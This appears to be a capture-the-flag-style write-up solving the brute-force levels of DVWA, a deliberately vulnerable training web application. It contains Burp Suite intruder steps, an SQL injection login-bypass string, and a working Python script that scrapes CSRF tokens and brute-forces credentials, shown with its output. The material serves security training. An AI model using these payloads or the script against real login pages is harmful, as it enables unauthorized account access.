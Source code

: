 # DVWA - Brute Force Solution

## Low level

### Solution

Use the proxy to interrupt the package.

![](https://i.imgur.com/TPzebgj.png)

Then send the package to the intruder. After that we can set the parameter. We need to set the account and the password to attack. And set the adttack type to cluster bomb. Than we need to set the payload. Add some easily to attack account and password to the set. After that we can start to attack.

![](https://i.imgur.com/xA5lypI.png)

When finish attack we can to observe the length. We can see there has a different length. Then we can manual to use the account and password to try to login.

![](https://i.imgur.com/7FZbHzS.png)

We can use the admin/password to login.

![](https://i.imgur.com/46S4ouw.png)

### Solution

If we know the account. But we don't have the password. We can use the sql injection to pass.
In this case, we can use the account: admin' or '1' = '1 and password: to paas.

![](https://i.imgur.com/XPaA4GI.png)

## Medium level

Because the source adds the `mysql_real_escape_string` so it can recognize the special sign.
In this case, we only can use the Burpsuite to do Brute Force.

## High level

### Solution 1

In this case, the page add the token to verify. So, we can use the brupsuite to Brute Force the account and password.
First also use proxy to interrupt the package, and send it to intruder.
And set the passwoed and user_token to the parameter.

![](https://i.imgur.com/Dzw6QT8.png)

Go intruder -> option -> Grep-Extract, choose the value of user_token.

![](https://i.imgur.com/FiwR6cU.png)

And set the payload of user_token choose the Payload Type to Recursive grep. Remember to copy the initial user_token. After that, you can start to attack.

![](https://i.imgur.com/IrdPL3W.png)

At the end, you can see the result.

![](https://i.imgur.com/VvgVXzA.png)

### Solution 2

Use the code to get the user_token and test the account and password.

```python
import requests
from bs4 import BeautifulSoup

#dict
payloads = [
    'administrator',
    'admin',
    'password',
    'passwd',
    '123456',
    '123'
]

url = """http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username={0}&password={1}&Login=Login&user_token={2}"""

cookies = {
    'security':'high',
    'PHPSESSID':'mfnrbgq0q5qepj43egak4amjjl'
}

headers = {
    'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
}

def attack(payloads,url):
    #get user_token
    source = 'http://192.168.1.66/DVWA-master/vulnerabilities/brute/index.php#'
    web_data = requests.get(source, headers = headers, cookies = cookies)
    soup = BeautifulSoup(web_data.text, 'lxml')
    user_token = soup.select('input[name="user_token"]')[0]['value']

    for payload1 in payloads:
        for payload2 in payloads:
            target = url.format(payload1, payload2, user_token)
            print('target url: ' + target)
            web_data = requests.get(target,headers = headers, cookies = cookies)
            soup = BeautifulSoup(web_data.text,'lxml')
            user_token = soup.select('input[name="user_token"]')[0]['value']
            feature = soup.find('pre')
            try:
                if feature.get_text() == 'Username and/or password incorrect.':
                    print('error')
            except:
                print('result:')
                print('username:' + payload1+'\n' + 'password:' + payload2)
                exit('end')

attack(payloads,url)
```

The result you will get.

```bash=
target url: http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username=admin&password=admin&Login=Login&user_token=bf6a4968f65876096a8217991f9ac414
error
target url: http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=013c6315db7a2ef6eb65ca22abeea491
result:
username:admin
password:password
end

```

## Impossibel level

### Some error

The timezone of MySQL is UTC-6. However, the timezone in PHP is UTC+1. So, we need to edit the sorce code at  35 line to correct the time. Or if we try login over the time we set, the account will not be locked.
As the following code we can see the 35 line I add the 7 hours to correct the time.

```php
  if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
        // User locked out.  Note, using this method would allow for user enumeration!
        //$html .= "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

        // Calculate when the user would be allowed to login again
        $last_login = strtotime( $row[ 'last_login' ] ) + (7*60*60);
        $timeout    = $last_login + ($lockout_time * 60);
        $timenow    = time();

        /*
        print "The last login was: " . date ("h:i:s", $last_login) . "<br />";
        print "The timenow is: " . date ("h:i:s", $timenow) . "<br />";
        print "The timeout is: " . date ("h:i:s", $timeout) . "<br />";
        */

        // Check to see if enough time has passed, if it hasn't locked the account
        if( $timenow < $timeout ) {
            $account_locked = true;
            // print "The account is locked<br />";
        }
    }
```

### Solution

Because the login will lock the account when we try too many times, maybe we can try to brup force on account.
